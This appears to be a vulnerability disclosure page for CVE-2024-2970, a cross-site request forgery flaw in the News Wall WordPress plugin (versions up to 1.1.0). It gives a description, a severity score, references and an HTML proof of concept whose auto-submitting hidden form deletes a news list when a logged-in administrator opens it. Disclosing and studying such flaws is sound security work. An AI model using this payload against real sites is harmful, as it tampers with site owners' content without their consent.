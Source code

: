 ```yaml
---
layout: page
title: CVE-2024-2970
subtitle: News Wall <= 1.1.0 - Cross-Site Request Forgery to Plugin Settings Update
---
```

## Description
The News Wall plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.0. This is due to missing or incorrect nonce validation on the nwap_newslist_page() function. This makes it possible for unauthenticated attackers to update the plugin's settings and modify news lists via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
4.3 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Affected Version
    <= 1.1.0

## PoC :

```
<html>
  <!-- Made By Eneriiiiii -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php">
      <input type="hidden" name="page" value="nw&#95;newslist&#95;page" />
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="confirm" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/news-wall/news-wall-110-cross-site-request-forgery-to-plugin-settings-update
- https://plugins.trac.wordpress.org/browser/news-wall/trunk/plugin-panel.php
- https://nvd.nist.gov/vuln/detail/CVE-2024-2970


